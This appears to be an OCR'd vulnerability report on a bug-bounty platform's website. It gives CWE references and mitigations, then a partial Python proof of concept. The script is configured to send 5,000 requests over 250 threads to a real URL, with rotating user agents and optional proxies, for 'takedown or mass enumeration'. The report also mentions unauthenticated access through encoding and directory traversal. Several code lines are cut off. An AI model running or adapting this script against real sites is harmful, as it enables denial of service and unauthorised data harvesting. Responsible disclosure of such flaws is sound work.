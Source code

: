 🔑 CWE References

CWE-400: Uncontrolled Resource Consumption ("Resource Exhaustion")

CWE-770: Allocation of Resources Without Limits or Throttling

CWE-307: Improper Restriction of Excessive Authentication Attempts (conceptually similar when considering enumeration)

🛡️ Recommended Mitigations

Implement strict server-side rate limiting and global concurrency throttling.

Validate and sanitize query parameters, disallowing arbitrary additional parameters if not strictly required.

Enforce CAPTCHA or challenge-response on suspicious request patterns.

Monitor for distributed requests using fingerprinting and advanced behavioral analytics.

Sort out the fact you can request those links unauthenticated from a terminal using the encoding and directory traversal as I have with the internal redirect.

Proof of Concept
res.py
```python
import requests
import threading
import random
import json
import time
import csv
import os
import re
from queue import Queue
# ----- CONFIG -----
target_url = "https://bugs.immunefi.com/?redirect_to=%2Fdashboard%2Fsubmission%2F"
num_threads = 250           # Higher concurrency for stress
num_requests = 5000         # More requests to simulate takedown or mass enumeration
proxies_list = [
    # Example: "http://127.0.0.1:9050"
]
output_csv = "immunefi_poc_log.csv"
output_dir = "responses_html"
use_proxies = False
# -------------------

user_agents = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) C>
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 12_5) AppleWebKit/605.1.15 (KHTML, like Gec>
    "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.>
    "Mozilla/5.0 (iPhone; CPU iPhone OS 17_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML>
]

if not os.path.exists(output_dir):
    os.makedirs(output_dir)

if not os.path.exists(output_csv):
    with open(output_csv, mode="w", newline="", encoding="utf-8") as f:
        writer = csv.writer(f)
        writer.writerow([
            "Request#", "Status", "URL", "Latency", "Content-Length",
            "Redirected", "Proxy", "Headers JSON", "HTML Filename", "Suspicious Data Fo>
        ])

queue = Queue()
for i in range(num_requests):
    queue.put(i + 1)
```